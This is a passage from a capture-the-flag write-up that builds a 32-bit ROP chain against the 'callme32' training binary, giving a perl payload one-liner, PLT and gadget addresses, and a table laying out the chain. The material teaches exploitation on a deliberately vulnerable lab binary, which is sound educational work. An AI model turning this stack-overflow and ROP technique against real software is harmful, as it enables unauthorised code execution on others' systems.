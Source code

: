 AND

* the address of `callme_two` function via the `PLT`:
    * `0x08048550`
* the address of the gadget:
    * `0x080487f9`
* the three parameters.
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit ropper (with the command `quit`) and try to build and execute the ROP chain using the following command:

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" . "\x50\x85\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0"' | ./callme32
```
![](./15.png)

We succeeded. Now we have everything we need for the complete solution (which is, of course, just to add the third function).

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name         | Type   | Address    | Description                                         |
|--------------|--------|------------|-----------------------------------------------------|
| callme_one   | Func   | 0x080484f0 | The entry address in the PLT table.                 |
| callme_two   | Func   | 0x08048550 | The entry address in the PLT table.                 |
| callme_three | Func   | 0x080484e0 | The entry address in the PLT table.                 |
| pop3words    | Gadget | 0x080487f9 | Clean 3 words (12 bytes) from the top of the stack. |

This table describes the ROP chain itself:

| No | Chain link                                                  |
|----|-------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |
| 2  | callme_one, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d   |
| 3  | callme_two, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d   |
| 4  | callme_three, pop3words, 0xdeadbeef, 0xcafebabe, 0xd00df00d |
